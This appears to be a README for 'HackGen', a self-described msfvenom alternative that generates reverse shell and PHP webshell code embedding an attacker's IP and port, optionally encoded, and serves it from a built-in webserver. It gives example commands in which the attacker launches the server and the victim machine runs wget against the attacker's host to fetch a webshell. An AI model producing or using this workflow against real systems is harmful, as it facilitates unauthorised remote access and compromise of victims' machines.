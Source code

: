 # HackGen
> Pretty much msfvenom, but I hate Metasploit >:(

## Installation:
- Clone this repo to whatever directory you want
- Change the path of the rshells.db database to the <b>ABSOLUTE</b> path of the install dir
- Optional: Link the "hackgen.py" script to somewhere in your path so it can be executed from anywhere!

## Usage:
> Use the `-h` flag for details on the usage.
This script was created to easily produce reverse shell codes with an attacker's IP & port in the script.
It can also urlencode or base64 encode the resulting script.
### Webserver:
One fun feature is that you can start hackgen as a webserver which makes it incredibly easy to get rshell code onto a target.
Once the hackgen command us run with the `-w` flag, it will start a webserver on port 8000. When a GET request is sent to the server, it will reply with just the rshell string. Because the server will return the same rhsell code no matter the requested endpoint, a simple way to save to a file is to use `wget` to get a specific page from the server. Because all "pages" return the same thing, wget will end up writing the retrieved rshell to the fetched page. For example, if we wanted to write a PHP webshell to file "webshell.php", on the attacker machine we would run the command:
```
hackgen.py <your ip> <your port> -wf php -n webshell
```
And on the victim machine, we would run:
```
wget http://<your ip>:8000/webshell.php
```
This will save the PHP webshell to the attacker machine under the filename: "webshell.php"
